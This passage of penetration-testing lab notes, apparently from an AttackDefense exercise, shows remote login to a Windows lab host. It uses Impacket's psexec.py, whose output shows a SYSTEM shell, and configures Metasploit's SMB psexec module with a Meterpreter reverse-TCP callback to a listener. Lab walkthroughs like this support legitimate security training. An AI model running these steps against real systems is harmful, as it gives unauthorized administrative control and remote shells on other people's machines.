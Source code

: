 



**login to the target with psexec**

```bash
root@attackdefense:~# python3 psexec.py administrator@10.4.18.58
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

Password:
[*] Requesting shares on 10.4.18.58.....
[*] Found writable share ADMIN$
[*] Uploading file XzAijzKt.exe
[*] Opening SVCManager on 10.4.18.58.....
[*] Creating service JiNO on 10.4.18.58.....
[*] Starting service JiNO.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```





**login to the target with metasploit `exploit/windows/smb/psexec`**

```bash
msf6 > use exploit/windows/smb/psexec
msf6 exploit(windows/smb/psexec) > options 

Module options (exploit/windows/smb/psexec):

   Name                  Current Setting  Required  Description
   ----                  ---------------  --------  -----------
   RHOSTS                10.4.18.58       yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT                 445              yes       The SMB service port (TCP)
   SERVICE_DESCRIPTION                    no        Service description to to be used on target for pretty listing
   SERVICE_DISPLAY_NAME                   no        The service display name
   SERVICE_NAME                           no        The service name
   SMBDomain             .                no        The Windows domain to use for authentication
   SMBPass                  	          no        The password for the specified username
   SMBSHARE                               no        The share to connect to, can be an admin share (ADMIN$,C$,...) or a normal read/write folder share
   SMBUser                                no        The username to authenticate as


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.22.2       yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic


```